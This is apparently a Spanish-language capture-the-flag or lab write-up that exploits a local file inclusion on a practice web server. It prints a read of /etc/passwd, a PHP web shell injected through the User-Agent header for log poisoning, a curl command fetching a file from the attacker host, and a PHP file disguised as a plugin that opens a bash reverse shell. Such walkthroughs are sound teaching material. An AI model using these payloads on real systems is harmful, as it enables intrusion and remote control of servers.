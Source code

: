 ```bash
```

Tenemos un **LFI**.
# EXPLOTACION

Apuntamos al archivo **/etc/passwd**:

```
http://172.17.0.2/problems.php?backdoor=/etc/passwd
```

**Usuarios interesantes -> root,carlos**

Usamos **hydra** para intentar sacar su contraseña y no podemos.

Vamos a volver a usar **wfuzz** para ver que archivos podemos leer y vemos que tenemos acceso a los logs de apache2. Podemos intentar un **log poisoning**.

Para hacerlo, se puede de muchas formas.

Nosotros haremos la siguiente petición :
```bash

curl -s -X GET "http://172.17.0.2/prox" -H "User-Agent: <?php system(\$_GET['cmd']);?>"

```

Y luego al ver el **access.log** podremos colar el comando que queramos:

```

http://172.17.0.2/problems.php?backdoor=/var/log/apache2/access.log&cmd=whoami

```

Por ejemplo con este mostramos www-data.

Lo que podemos es ponernos en escucha por un puerto y mandarnos una reverse shell, pero por alguna razón no funciona.

Vamos a mandar un script php al directorio uploads. Y al entrar a verlo nos otorgara una reverse shell:

```

http://172.17.0.2/problems.php?backdoor=/var/log/apache2/access.log&cmd=curl 172.17.0.1:8000/wp.php -o /var/www/html/uploads/wp.php

```

```php

<?php

/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/


        exec("/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'");

?>

```
